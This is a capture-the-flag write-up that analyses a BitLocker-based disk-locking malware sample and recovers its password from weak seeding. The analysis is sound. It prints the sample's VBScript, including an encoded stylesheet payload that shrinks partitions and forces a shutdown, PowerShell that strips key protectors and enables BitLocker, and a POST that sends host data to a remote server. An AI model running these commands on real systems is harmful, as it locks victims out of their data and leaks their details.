ZlJTZiJTY0JTY5JTczJTZiJTJlJTUzJTc0JTY0JTQ5JTZlJTJlJTU3JTcyJTY5JTc0JTY1JTRjJTY5JTZlJTY1JTI4JTIyJTY1JTc4JTY5JTc0JTIyJTIwJTI2JTIwJTc2JTYyJTQzJTcyJTRjJTY2JTI5JTBhJTA5JTA5JTA5JTA5JTA5JTA5JTA5JTU3JTUzJTYzJTcyJTY5JTcwJTc0JTJlJTUzJTZjJTY1JTY1JTcwJTI4JTM1JTMwJTMwJTMwJTI5JTBhJTA5JTA5JTA5JTA5JTA5JTA5JTA5JTQ5JTY2JTIwJTQ5JTZlJTUzJTc0JTcyJTI4JTMxJTJjJTIwJTczJTY4JTcyJTY5JTZlJTZiJTY0JTY5JTczJTZiJTJlJTczJTc0JTY0JTZmJTc1JTc0JTJlJTcyJTY1JTYxJTY0JTYxJTZjJTZjJTIwJTJjJTIwJTIyJTMxJTMwJTMwJTIyJTJjJTIwJTc2JTYyJTU0JTY1JTc4JTc0JTQzJTZmJTZkJTcwJTYxJTcyJTY1JTI5JTIwJTNlJTIwJTMwJTIwJTc0JTY4JTY1JTZlJTBhJTA5JTA5JTA5JTA5JTA5JTA5JTA5JTczJTY1JTc0JTIwJTczJTY4JTcyJTY5JTZlJTZiJTY0JTY5JTczJTZiJTIwJTNkJTIwJTQzJTcyJTY1JTYxJTc0JTY1JTRmJTYyJTZhJTY1JTYzJTc0JTI4JTIyJTU3JTUzJTYzJTcyJTY5JTcwJTc0JTJlJTUzJTY4JTY1JTZjJTZjJTIyJTI5JTJlJTQ1JTc4JTY1JTYzJTI4JTIyJTY0JTY5JTczJTZiJTcwJTYxJTcyJTc0JTIyJTI5JTBhJTA5JTA5JTA5JTA5JTA5JTA5JTA5JTczJTY4JTcyJTY5JTZlJTZiJTY0JTY5JTczJTZiJTJlJTUzJTc0JTY0JTQ5JTZlJTJlJTU3JTcyJTY5JTc0JTY1JTRjJTY5JTZlJTY1JTI4JTIyJTUzJTY1JTZjJTY1JTYzJTc0JTIwJTU2JTZmJTZjJTc1JTZkJTY1JTIwJTIyJTIwJTI2JTIwJTczJTc0JTcyJTQ0JTcyJTY5JTc2JTY1JTRjJTY1JTc0JTc0JTY1JTcyJTIwJTI2JTIwJTc2JTYyJTQzJTcyJTRjJTY2JTI5JTBhJTA5JTA5JTA5JTA5JTA5JTA5JTA5JTczJTY4JTcyJTY5JTZlJTZiJTY0JTY5JTczJTZiJTJlJTUzJTc0JTY0JTQ5JTZlJTJlJTU3JTcyJTY5JTc0JTY1JTRjJTY5JTZlJTY1JTI4JTIyJTYzJTcyJTY1JTYxJTc0JTY1JTIwJTcwJTYxJTcyJTc0JTY5JTc0JTY5JTZmJTZlJTIwJTcwJTcyJTY5JTZkJTYxJTcyJTc5JTIwJTczJTY5JTdhJTY1JTNkJTMxJTMwJTMwJTIyJTIwJTI2JTIwJTc2JTYyJTQzJTcyJTRjJTY2JTI5JTBhJTA5JTA5JTA5JTA5JTA5JTA5JTA5JTczJTY4JTcyJTY5JTZlJTZiJTY0JTY5JTczJTZiJTJlJTUzJTc0JTY0JTQ5JTZlJTJlJTU3JTcyJTY5JTc0JTY1JTRjJTY5JTZlJTY1JTI4JTIyJTY2JTZmJTcyJTZkJTYxJTc0JTIwJTcxJTc1JTY5JTYzJTZiJTIwJTcyJTY1JTYzJTZmJTZkJTZkJTY1JTZlJTY0JTY1JTY0JTIwJTZmJTc2JTY1JTcyJTcyJTY5JTY0JTY1JTIyJTIwJTI2JTIwJTc2JTYyJTQzJTcyJTRjJTY2JTI5JTBhJTA5JTA5JTA5JTA5JTA5JTA5JTA5JTU3JTUzJTYzJTcyJTY5JTcwJTc0JTJlJTUzJTZjJTY1JTY1JTcwJTI4JTM1JTMwJTMwJTMwJTI5JTBhJTA5JTA5JTA5JTA5JTA5JTA5JTA5JTczJTY4JTcyJTY5JTZlJTZiJTY0JTY5JTczJTZiJTJlJTUzJTc0JTY0JTQ5JTZlJTJlJTU3JTcyJTY5JTc0JTY1JTRjJTY5JTZlJTY1JTI4JTIyJTYxJTczJTczJTY5JTY3JTZlJTIyJTIwJTI2JTIwJTc2JTYyJTQzJTcyJTRjJTY2JTI5JTBhJTA5JTA5JTA5JTA5JTA5JTA5JTA5JTczJTY4JTcyJTY5JTZlJTZiJTY0JTY5JTczJTZiJTJlJTUzJTc0JTY0JTQ5JTZlJTJlJTU3JTcyJTY5JTc0JTY1JTRjJTY5JTZlJTY1JTI4JTIyJTYxJTYzJTc0JTY5JTc2JTY1JTIyJTIwJTI2JTIwJTc2JTYyJTQzJTcyJTRjJTY2JTI5JTBhJTA5JTA5JTA5JTA5JTA5JTA5JTA5JTczJTY4JTcyJTY5JTZlJTZiJTY0JTY5JTczJTZiJTJlJTUzJTc0JTY0JTQ5JTZlJTJlJTU3JTcyJTY5JTc0JTY1JTRjJTY5JTZlJTY1JTI4JTIyJTY1JTc4JTY5JTc0JTIyJTIwJTI2JTIwJTc2JTYyJTQzJTcyJTRjJTY2JTI5JTBhJTA5JTA5JTA5JTA5JTA5JTA5JTA5JTQ5JTY2JTIwJTQ5JTZlJTUzJTc0JTcyJTI4JTMxJTJjJTIwJTczJTY4JTcyJTY5JTZlJTZiJTY0JTY5JTczJTZiJTJlJTczJTc0JTY0JTZmJTc1JTc0JTJlJTcyJTY1JTYxJTY0JTYxJTZjJTZjJTIwJTJjJTIwJTIyJTMxJTMwJTMwJTIyJTJjJTIwJTc2JTYyJTU0JTY1JTc4JTc0JTQzJTZmJTZkJTcwJTYxJTcyJTY1JTI5JTIwJTNlJTIwJTMwJTIwJTc0JTY4JTY1JTZlJTBhJTA5JTA5JTA5JTA5JTA5JTA5JTA5JTA5JTczJTY4JTcyJTY5JTZlJTZiJTYzJTZmJTZkJTcwJTZjJTYxJTc0JTY1JTIwJTNkJTIwJTIyJTZmJTZiJTIyJTBhJTA5JTA5JTA5JTA5JTA5JTA5JTA5JTQ1JTZjJTczJTY1JTBhJTA5JTA5JTA5JTA5JTA5JTA5JTA5JTQ1JTZlJTY0JTIwJTQ5JTY2JTBhJTA5JTA5JTA5JTA5JTA5JTA5JTA5JTQ1JTZjJTczJTY1JTBhJTA5JTA5JTA5JTA5JTA5JTA5JTA5JTQ1JTc4JTY5JTc0JTIwJTY2JTZmJTcyJTBhJTA5JTA5JTA5JTA5JTA5JTA5JTA5JTQ1JTZlJTY0JTIwJTQ5JTY2JTBhJTA5JTA5JTA5JTA5JTA5JTA5JTRlJTY1JTc4JTc0JTBhJTA5JTA5JTA5JTA5JTA5JTRlJTY1JTc4JTc0JTBhJTA5JTA5JTA5JTA5JTY5JTY2JTIwJTczJTY4JTcyJTY5JTZlJTZiJTYzJTZmJTZkJTcwJTZjJTYxJTc0JTY1JTIwJTNkJTIwJTIyJTZmJTZiJTIyJTIwJTc0JTY4JTY1JTZlJTBhJTA5JTA5JTA5JTA5JTQ1JTc4JTY5JTc0JTIwJTQ2JTZmJTcyJTBhJTA5JTA5JTA5JTA5JTQ1JTZlJTY0JTIwJTY5JTY2JTBhJTA5JTA5JTA5JTA5JTRlJTY1JTc4JTc0JTBhJTA5JTA5JTA5JTA5JTUzJTY1JTc0JTIwJTYzJTZmJTZjJTRjJTZmJTY3JTY5JTYzJTYxJTZjJTQ0JTY5JTczJTZiJTczJTQxJTY2JTc0JTY1JTcyJTIwJTNkJTIwJTZmJTYyJTZhJTU3JTRkJTQ5JTUzJTY1JTcyJTc2JTY5JTYzJTY1JTJlJTQ1JTc4JTY1JTYzJTUxJTc1JTY1JTcyJTc5JTI4JTIyJTUzJTQ1JTRjJTQ1JTQzJTU0JTIwJTJhJTIwJTQ2JTUyJTRmJTRkJTIwJTU3JTY5JTZlJTMzJTMyJTVmJTRjJTZmJTY3JTY5JTYzJTYxJTZjJTQ0JTY5JTczJTZiJTIwJTU3JTQ4JTQ1JTUyJTQ1JTIwJTQ0JTcyJTY5JTc2JTY1JTU0JTc5JTcwJTY1JTIwJTNkJTIwJTMzJTIyJTI5JTBhJTA5JTA5JTA5JTA5JTA5JTA5JTQ2JTZmJTcyJTIwJTQ1JTYxJTYzJTY4JTIwJTZmJTYyJTZhJTQ0JTY5JTczJTZiJTQxJTY2JTc0JTY1JTcyJTIwJTQ5JTZlJTIwJTYzJTZmJTZjJTRjJTZmJTY3JTY5JTYzJTYxJTZjJTQ0JTY5JTczJTZiJTczJTQxJTY2JTc0JTY1JTcyJTBhJTA5JTA5JTA5JTA5JTA5JTA5JTA5JTQ0JTY5JTZkJTIwJTY0JTcyJTY5JTc2JTY1JTQ1JTc4JTY5JTczJTc0JTczJTMxJTNhJTIwJTY0JTcyJTY5JTc2JTY1JTQ1JTc4JTY5JTczJTc0JTczJTMxJTIwJTNkJTIwJTQ2JTYxJTZjJTczJTY1JTBhJTA5JTA5JTA5JTA5JTA5JTA5JTA5JTQ2JTZmJTcyJTIwJTQ1JTYxJTYzJTY4JTIwJTZmJTYyJTZhJTQ0JTY5JTczJTZiJTQyJTY1JTY2JTZmJTcyJTY1JTIwJTQ5JTZlJTIwJTYzJTZmJTZjJTRjJTZmJTY3JTY5JTYzJTYxJTZjJTQ0JTY5JTczJTZiJTczJTQyJTY1JTY2JTZmJTcyJTY1JTBhJTA5JTA5JTA5JTA5JTA5JTA5JTA5JTA5JTQ5JTY2JTIwJTZmJTYyJTZhJTQ0JTY5JTczJTZiJTQxJTY2JTc0JTY1JTcyJTJlJTQ0JTY1JTc2JTY5JTYzJTY1JTQ5JTQ0JTIwJTNkJTIwJTZmJTYyJTZhJTQ0JTY5JTczJTZiJTQyJTY1JTY2JTZmJTcyJTY1JTJlJTQ0JTY1JTc2JTY5JTYzJTY1JTQ5JTQ0JTIwJTU0JTY4JTY1JTZlJTBhJTA5JTA5JTA5JTA5JTA5JTA5JTA5JTA5JTA5JTY0JTcyJTY5JTc2JTY1JTQ1JTc4JTY5JTczJTc0JTczJTMxJTIwJTNkJTIwJTU0JTcyJTc1JTY1JTBhJTA5JTA5JTA5JTA5JTA5JTA5JTA5JTA5JTA5JTQ1JTc4JTY5JTc0JTIwJTQ2JTZmJTcyJTBhJTA5JTA5JTA5JTA5JTA5JTA5JTA5JTA5JTQ1JTZlJTY0JTIwJTQ5JTY2JTBhJTA5JTA5JTA5JTA5JTA5JTA5JTA5JTRlJTY1JTc4JTc0JTBhJTA5JTA5JTA5JTA5JTA5JTA5JTA5JTQ5JTY2JTIwJTRlJTZmJTc0JTIwJTY0JTcyJTY5JTc2JTY1JTQ1JTc4JTY5JTczJTc0JTczJTMxJTIwJTU0JTY4JTY1JTZlJTBhJTA5JTA5JTA5JTA5JTA5JTA5JTA5JTA5JTczJTc0JTcyJTQ0JTcyJTY5JTc2JTY1JTRjJTY1JTc0JTc0JTY1JTcyJTIwJTNkJTIwJTZmJTYyJTZhJTQ0JTY5JTczJTZiJTQxJTY2JTc0JTY1JTcyJTJlJTQ0JTY1JTc2JTY5JTYzJTY1JTQ5JTQ0JTBhJTA5JTA5JTA5JTA5JTA5JTA5JTA5JTA5JTQ1JTc4JTY5JTc0JTIwJTQ2JTZmJTcyJTBhJTA5JTA5JTA5JTA5JTA5JTA5JTA5JTQ1JTZlJTY0JTIwJTQ5JTY2JTBhJTA5JTA5JTA5JTA5JTA5JTA5JTRlJTY1JTc4JTc0JTBhJTA5JTA5JTA5JTA5JTA5JTA5JTQ5JTY2JTIwJTRjJTY1JTZlJTI4JTI4JTQzJTcyJTY1JTYxJTc0JTY1JTRmJTYyJTZhJTY1JTYzJTc0JTI4JTIyJTU3JTUzJTYzJTcyJTY5JTcwJTc0JTJlJTUzJTY4JTY1JTZjJTZjJTIyJTI5JTJlJTQ1JTc4JTY1JTYzJTI4JTIyJTYyJTYzJTY0JTYyJTZmJTZmJTc0JTIwJTIyJTIwJTI2JTIwJTQ0JTcyJTY5JTc2JTY1JTZjJTY1JTc0JTc0JTY1JTcyJTczJTIwJTI2JTIwJTIyJTVjJTc3JTY5JTZlJTY0JTZmJTc3JTczJTIwJTJmJTczJTIwJTIyJTIwJTI2JTIwJTczJTc0JTcyJTQ0JTcyJTY5JTc2JTY1JTRjJTY1JTc0JTc0JTY1JTcyJTI5JTI5JTJlJTczJTc0JTY0JTZmJTc1JTc0JTJlJTcyJTY1JTYxJTY0JTYxJTZjJTZjJTI5JTIwJTNlJTIwJTMwJTIwJTU0JTY4JTY1JTZlJTNhJTIwJTQ1JTZlJTY0JTIwJTQ5JTY2JTBhJTA5JTA5JTA5JTA5JTczJTY1JTc0JTIwJTcyJTY1JTZkJTZmJTc2JTY1JTIwJTNkJTIwJTQzJTcyJTY1JTYxJTc0JTY1JTRmJTYyJTZhJTY1JTYzJTc0JTI4JTIyJTU3JTUzJTYzJTcyJTY5JTcwJTc0JTJlJTUzJTY4JTY1JTZjJTZjJTIyJTI5JTJlJTQ1JTc4JTY1JTYzJTI4JTIyJTY0JTY5JTczJTZiJTcwJTYxJTcyJTc0JTIyJTI5JTBhJTA5JTA5JTA5JTA5JTcyJTY1JTZkJTZmJTc2JTY1JTJlJTUzJTc0JTY0JTQ5JTZlJTJlJTU3JTcyJTY5JTc0JTY1JTRjJTY5JTZlJTY1JTI4JTIyJTUzJTY1JTZjJTY1JTYzJTc0JTIwJTU2JTZmJTZjJTc1JTZkJTY1JTIwJTIyJTIwJTI2JTIwJTczJTc0JTcyJTQ0JTcyJTY5JTc2JTY1JTRjJTY1JTc0JTc0JTY1JTcyJTIwJTI2JTIwJTc2JTYyJTQzJTcyJTRjJTY2JTI5JTBhJTA5JTA5JTA5JTA5JTcyJTY1JTZkJTZmJTc2JTY1JTJlJTUzJTc0JTY0JTQ5JTZlJTJlJTU3JTcyJTY5JTc0JTY1JTRjJTY5JTZlJTY1JTI4JTIyJTcyJTY1JTZkJTZmJTc2JTY1JTIyJTIwJTI2JTIwJTc2JTYyJTQzJTcyJTRjJTY2JTI5JTBhJTA5JTA5JTA5JTA5JTcyJTY1JTZkJTZmJTc2JTY1JTJlJTUzJTc0JTY0JTQ5JTZlJTJlJTU3JTcyJTY5JTc0JTY1JTRjJTY5JTZlJTY1JTI4JTIyJTY1JTc4JTY5JTc0JTIyJTIwJTI2JTIwJTc2JTYyJTQzJTcyJTRjJTY2JTI5JTBhJTA5JTA5JTA5JTA5JTQ5JTY2JTIwJTRjJTY1JTZlJTI4JTcyJTY1JTZkJTZmJTc2JTY1JTJlJTczJTc0JTY0JTZmJTc1JTc0JTJlJTcyJTY1JTYxJTY0JTYxJTZjJTZjJTI5JTIwJTNlJTIwJTMwJTIwJTc0JTY4JTY1JTZlJTBhJTA5JTA5JTA5JTA5JTQ2JTZmJTcyJTIwJTQ1JTYxJTYzJTY4JTIwJTRmJTczJTIwJTY5JTZlJTIwJTQ3JTY1JTc0JTRmJTYyJTZhJTY1JTYzJTc0JTI4JTIyJTc3JTY5JTZlJTZkJTY3JTZkJTc0JTczJTNhJTIyJTI5JTJlJTQ1JTc4JTY1JTYzJTUxJTc1JTY1JTcyJTc5JTI4JTIyJTUzJTQ1JTRjJTQ1JTQzJTU0JTIwJTJhJTIwJTQ2JTUyJTRmJTRkJTIwJTU3JTY5JTZlJTMzJTMyJTVmJTRmJTcwJTY1JTcyJTYxJTc0JTY5JTZlJTY3JTUzJTc5JTczJTc0JTY1JTZkJTIyJTI5JTNhJTIwJTZmJTczJTJlJTU3JTY5JTZlJTMzJTMyJTUzJTY4JTc1JTc0JTY0JTZmJTc3JTZlJTI4JTM2JTI5JTNhJTIwJTRlJTY1JTc4JTc0JTBhJTA5JTA5JTA5JTA5JTU3JTUzJTYzJTcyJTY5JTcwJTc0JTJlJTUzJTZjJTY1JTY1JTcwJTIwJTM2JTMwJTMwJTMwJTMwJTMwJTMwJTBhJTA5JTA5JTA5JTA5JTY1JTZlJTY0JTIwJTY5JTY2JTBhJTA5JTA5JTA5JTA5JTBhJTA5JTY1JTZjJTczJTY1JTBhJTA5JTY1JTZlJTY0JTIwJTY5JTY2JTBhJTBhJTVkJTVkJTNlJTNjJTJmJTZkJTczJTNhJTczJTYzJTcyJTY5JTcwJTc0JTNlJTBhJTNjJTJmJTczJTc0JTc5JTZjJTY1JTczJTY4JTY1JTY1JTc0JTNl)

This script contains two things of interest:

1.  HTTP request done `https://192.168.77.136/updatelog`
2.  a section that was enumerating drives and enabling BitLocker on the drives.

## HTTP Request

In the script, we can see how the POST HTTP Request it constructed.

```vb
Dim seed 'seed created 
seed = CStr(usedMemory) & CStr(usedSpaceTotal) & CStr(freeSpaceTotal) & CStr(freeMemory)  & CStr(sys) & CStr(perf) & CStr(received) & CStr(sent) & CStr(Timer)
Rnd(-1)
Randomize seed 
...
Set httpRequest = CreateObject("WinHttp.WinHttpRequest.5.1")
httpRequest.Open "POST", "http://192.168.77.136/updatelog", False
... 
computerName = CreateObject("WScript.Network").ComputerName
postDataPlaintext = computerName & vbTab & seed 'postDataPlaintext structure
...

Set oXML = CreateObject("Msxml2.DOMDocument.6.0")
Set oNode = oXML.CreateElement("base64") 'base64 encoding
oNode.dataType = "bin.base64"

If InStr(1, caption, "2008", vbTextCompare) > 0 Or InStr(1, caption, "7", vbTextCompare) > 0 Then
    oNode.nodeTypedValue = Stream_StringToBinary(postDataPlaintext)
	postData = "upgrade=" & oNode.Text
Else
    oNode.nodeTypedValue = Stream_StringToBinary(postDataPlaintext)
	postData = "upgrade=" & oNode.Text 'constructed string
End If
...

On Error Resume Next
    httpRequest.SetTimeouts 15000, 15000, 15000, 15000
    httpRequest.Send postData 'data sent
```

We can see that `postData` is constructed with the value `upgrade=`. `&` (concat in VBS) and the value of `oNode.Text`.
The `oNode` is constucted using `.CreateElement("base64")` and `oNode.dataType = "bin.base64"`.
This might reveal the content of `postDataPlaintext`, that is constructed of `computername` a tabular space (`vbTab`) and the generated `seed`.
Using CyberChef we get the following content: `DESKTOP-59C1C3D	43906.83`, and matches quite well with our assumptions.

[CyberChef: From Base64](https://gchq.github.io/CyberChef/#recipe=From_Base64('A-Za-z0-9%2B/%3D',true,false)&input=UkVWVFMxUlBVQzAxT1VNeFF6TkVDVFF6T1RBMkxqZ3o)

## BitLocker

Examinating the code further, I started looking at the part where the script was enumerating drives and the PowerShell commands was of interest.

```vb
Set objWMIService = GetObject("winmgmts:\\.\root\CIMV2")
	Dim matchedDrives
	matchedDrives = "C:,E:"
	If Len(matchedDrives) > 0 Then
		matchedDrives = Left(matchedDrives, Len(matchedDrives) - 1)
		drives = Split(matchedDrives, ",")
		For i = 0 To UBound(drives)
			...
            ' 1 '
			If Len((CreateObject("WScript.Shell").Exec("powershell.exe -Command ""$protectors = (Get-BitLockerVolume -MountPoint " & drives(i) & ").KeyProtector; if ($protectors -ne $null) { foreach ($protector in $protectors) { Remove-BitLockerKeyProtector -MountPoint " & drives(i) & " -KeyProtectorId $protector.KeyProtectorId } }""")).stdout.readall) > 0 Then: End If
            ' 2'
			If Len((CreateObject("WScript.Shell").Exec("powershell.exe -Command $a=ConvertTo-SecureString " & Chr(34)  & Chr(39) & strRandom & Chr(39)  & Chr(34) & " -asplaintext -force;Enable-BitLocker " & drives(i) & " -s -qe -pwp -pw $a")).stdout.readall) > 0 Then: End If
            ' 3 '
			If Len((CreateObject("WScript.Shell").Exec("powershell.exe -Command Resume-BitLocker -MountPoint " & drives(i) & " ")).stdout.readall) > 0 Then: End If
		Next
	End If
```

The most interesting part was looking at second powershell command that was issued:

```vb
"powershell.exe -Command $a=ConvertTo-SecureString " & Chr(34)  & Chr(39) & strRandom & Chr(39)  & Chr(34) & " -asplaintext -force;
Enable-BitLocker " & drives(i) & " -s -qe -pwp -pw $a"
```

We can see that `strRandom` is being used together with `Char(34)` -> `"` and `Char(39)` -> `'` to constuct a `SecureString` that is passed to `Enable-BitLocker` as a `-pw`  (--Password).

Searching in the file, we could locate `strRandom` being created by the following algorithm at the start of the script.

```vb
Dim strRandom
characters = "THEQUICKBROWNFOXJUMPSOVERTHELAZYDOG!@#$&*-+=_;0123456789thequickbrownfoxjumpsoverthlazydog"
Dim seed
seed = CStr(usedMemory) & CStr(usedSpaceTotal) & CStr(freeSpaceTotal) & CStr(freeMemory)  & CStr(sys) & CStr(perf) & CStr(received) & CStr(sent) & CStr(Timer)
Rnd(-1)
Randomize seed
For i = 1 To 64
    
    randomNum = Int(Len(characters) * Rnd(2))
    randomChar = Mid(characters, randomNum + 1, 1)    
    strRandom = strRandom & randomChar
Next
```

Could we get the password?

We know the `seed` value, as it was sent with HTTP POST in `updatelog`.
The documentation for the function `Rnd(-1)` reveals that when the value passed to it is less than zero it produces the same number every time.

Modified the script with the details we know: `password.vbs`

```vb
Dim strRandom
characters = "THEQUICKBROWNFOXJUMPSOVERTHELAZYDOG!@#$&*-+=_;0123456789thequickbrownfoxjumpsoverthlazydog"
Dim seed
seed = 43906.83 '<-- seed from updatelog
Rnd(-1)
Randomize seed
For i = 1 To 64
    
    randomNum = Int(Len(characters) * Rnd(2))
    randomChar = Mid(characters, randomNum + 1, 1)    
    strRandom = strRandom & randomChar
Next

WScript.Echo strRandom 'print to screen
```

Excuting it on Kali

```sh
┌──(.spydx)-[~/equinor-ctf-2024/honey_i_shrunk_the_kids]
└─$ wine cscript password.vbs
it looks like wine32 is missing, you should install it.
as root, please execute "apt-get install win32:i386"
_tfeTIO$*Vy##f@GyRfDEJvRvNerHHDrE=GHr0CRFgSX3VYD4koa-LUU&OTDe;rb
```

We have something that looks like a password, rerunning it generates the same password everytime.

Password: `_tfeTIO$*Vy##f@GyRfDEJvRvNerHHDrE=GHr0CRFgSX3VYD4koa-LUU&OTDe;rb`
Lets attempt to unlock the drive with this password.

## Unlocking VHDX

To load VHDX files on Kali, we need to use `qmeu-ndb` and first we load the module,
 and then mount the file as to `/dev/nbd0`.

```shell
┌──(.spydx㉿kali)-[~/equinor-ctf-2024/honey_i_shrunk_the_kids]
└─$ sudo modprobe nbd
                                               
┌──(.spydx㉿kali)-[~/equinor-ctf-2024/honey_i_shrunk_the_kids]
└─$ sudo qemu-nbd -c /dev/nbd0 FlagDisk.vhdx

┌──(.spydx㉿kali)-[~/equinor-ctf-2024/honey_i_shrunk_the_kids]
└─$ sudo fdisk -l /dev/nbd0
Disk /dev/nbd0: 1000 MiB, 1048576000 bytes, 2048000 sectors
Units: sectors of 1 * 512 = 512 bytes
Sector size (logical/physical): 512 bytes / 512 bytes
I/O size (minimum/optimal): 512 bytes / 131072 bytes
Disklabel type: gpt
Disk identifier: CA30F8A4-95B3-4AEE-952D-62DD281E6DBA

Device      Start     End Sectors  Size Type
/dev/nbd0p1    34   32767   32734   16M Microsoft reserved
/dev/nbd0p2 32768 2043903 2011136  982M Microsoft basic data # <-- target
```

After that we can look at the partitions of the drive, and we can see we have a
`Microsoft basic data` partition at `/dev/nbd0p2`.

Using Gnome Disk to attempt to unlock the drive with the generated password.

```shell
┌──(.spydx㉿kali)-[~/equinor-ctf-2024/honey_i_shrunk_the_kids]
└─$ gnome-disks &
[2] 5915
```







Since we was able to unlock the drive, it was time to mount it such that we could browse it.

```shell
┌──(.spydx㉿kali)-[~/equinor-ctf-2024/honey_i_shrunk_the_kids]
└─$ sudo mount /dev/mapper/bitlk-f8590768-1aa6-4c89-82d0-42b2eca8cdcd /media/honey/ 
                                                                                            
┌──(.spydx㉿kali)-[~/equinor-ctf-2024/honey_i_shrunk_the_kids]
└─$ ls -la /media/honey
total 21
drwxrwxrwx 1 root root     0 Aug 28 20:48 '$RECYCLE.BIN'
drwxrwxrwx 1 root root  4096 Nov  5 20:13  .
drwxr-xr-x 4 root root  4096 Nov  5 20:44  ..
drwxrwxrwx 1 root root 12288 Sep  9 12:15 'System Volume Information'
-rwxrwxrwx 1 root root    32 Aug 28 20:48  flag.txt

┌──(.spydx㉿kali)-[~/equinor-ctf-2024/honey_i_shrunk_the_kids]
└─$ cat /media/honey/flag.txt                  
EPT{it_works_the_machine_works!}                                  
```

Success!

## Explaination

The malware that is encrypting the drive, is using `Rnd(-1)` and it is also passing the value of `seed` as a Base64 Encoded string to an external server `http://192.168.77.136/updatelog`. We are left with all the details that we need to regenerate the password, as shown above.

`Rnd(-1)` always produces the same number [1]

| If Number is	| Rnd generates |
| --- | --- |
| Less than zero|The same number every time, using Number as the seed.|


## Sources

1. [VB: Rnd](https://learn.microsoft.com/en-us/office/vba/language/reference/user-interface-help/rnd-function)
2. [https://medium.com/@kartik.sharma522/mounting-bit-locker-encrypted-vhd-files-in-linux-4b3f543251f0](https://medium.com/@kartik.sharma522/mounting-bit-locker-encrypted-vhd-files-in-linux-4b3f543251f0)